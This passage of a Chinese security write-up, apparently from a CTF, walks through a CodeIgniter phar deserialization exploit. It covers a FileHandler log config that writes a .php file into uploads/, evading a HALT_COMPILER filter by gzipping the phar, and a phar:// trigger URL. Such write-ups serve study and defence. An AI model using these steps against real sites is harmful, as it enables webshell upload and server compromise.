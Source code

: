 [![](https://p3.ssl.qhimg.com/t01b56a8cef64cb2e69.png)](https://p3.ssl.qhimg.com/t01b56a8cef64cb2e69.png)

这里加入了死亡exit，`dateFormat`的东西被写进来了。

因此再次更改exp。

如果直接写php的话，h会被date解析成小时，会变成这样，于是就需要转义符

[![](https://p4.ssl.qhimg.com/t014ab4e171f3b96449.png)](https://p4.ssl.qhimg.com/t014ab4e171f3b96449.png)

```
protected $handlerConfig = [
            'CodeIgniter\Log\Handlers\FileHandler'=&gt;[
                'handles' =&gt; ['critical', 'alert', 'emergency', 'debug', 'error', 'info', 'notice', 'warning'],
                "path"=&gt;"uploads/",
                "fileExtension"=&gt;"a.php",
                "filePermissions"=&gt;"aa"
        ]];
```

绕过死亡exit让后缀不为php就行，我们让他成为a.php

[![](https://p4.ssl.qhimg.com/t01926c4036c09182fd.png)](https://p4.ssl.qhimg.com/t01926c4036c09182fd.png)

ok成功写入。

[![](https://p4.ssl.qhimg.com/t0151d8840d8d64fcb1.png)](https://p4.ssl.qhimg.com/t0151d8840d8d64fcb1.png)

链子已打通，尝试构造phar。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0112549f3457f1ebf7.png)

把php.ini的readonly关闭

生成phar上传

[![](https://p3.ssl.qhimg.com/t018377b0f8ee521058.png)](https://p3.ssl.qhimg.com/t018377b0f8ee521058.png)

不出所料，被过滤了，原因是phar中含有`HALT_COMPILER`那么 如何绕过？

我们把这个phar拿去gzip一下

`gzip phar.jpg`

[![](https://p3.ssl.qhimg.com/t013da8bdfca200c88f.png)](https://p3.ssl.qhimg.com/t013da8bdfca200c88f.png)

就可以绕过检测。

```
index.php/Check?file=phar://uploads/phar.jpg/test.txt
```
